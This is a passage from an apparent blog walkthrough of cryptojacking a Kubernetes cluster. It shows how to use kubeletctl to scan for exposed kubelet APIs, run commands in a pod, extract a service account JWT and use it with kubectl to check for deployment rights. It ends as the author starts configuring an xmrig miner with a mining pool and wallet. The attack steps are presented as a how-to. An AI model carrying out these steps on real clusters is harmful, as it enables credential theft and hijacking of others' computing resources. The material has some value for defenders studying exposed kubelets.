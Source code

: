 ## Using [Kubeletctl](https://github.com/cyberark/kubeletctl)

Back to the attack. Rather than messing around with the Kubelet API via Curl cyberark has developed a tool to interface with the API. I recommend installing it with Docker.

```bash
git clone https://github.com/cyberark/kubeletctl
cd kubeletctl
make docker
docker run -it --rm kubeletctl:latest
```


First start by scanning the cluster subnet looking to open kubelet APIs.


![scan.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/scan.png)

I have discovered one open kubelete API. Next, we can scan that API for pods that we can execute commands on. We find "my-pod" deployed in the default namespace we can RCE.

![rce.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/rce.png)

Finally, we scan the pod to see if it has a Service account "ruse-sa" attached.

![token.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/token.png)

We found some tokens! The tool returns the JWT token from the pod. As seen above we can now use that JWT token to authenticate to the K8 API. Here I am using kubectl and passing the API running at 172.17.0.2:8443 and our enumerated JWT token.

```bash
TOKEN=<TOKEN>
kubectl --insecure-skip-tls-verify=true  \
          --server="https://172.17.0.2:8443"   \
          --token="$TOKEN" \
		  auth can-i create deployments
```

We are authenticated! You can enumerate your service account permissions using `kubectl can-i <verb> <resource>`. The permissions we want for our cryptojacker is `create deployments`



![create-deployments.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/create-deployments.png)




## Setting up the cryptojacker

Now that we have access to the cluster we need to configure the miner. I have created a docker image built with xmrig. The container requires two env vars to run. The POOL var will tell the miner which miner pool to use. I used pool.minexmr.com:4444. The second env var is WALLET, as expected this will be the wallet where the profit will be sent.
